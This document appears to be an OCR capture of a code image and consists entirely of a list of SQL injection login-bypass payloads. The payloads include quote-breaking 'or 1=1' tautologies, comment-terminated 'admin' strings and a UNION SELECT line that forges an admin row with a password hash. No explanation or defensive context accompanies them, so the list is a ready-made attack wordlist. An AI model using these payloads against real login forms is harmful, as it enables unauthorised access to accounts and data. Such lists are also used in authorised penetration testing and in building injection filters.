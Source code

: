 ```c
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
```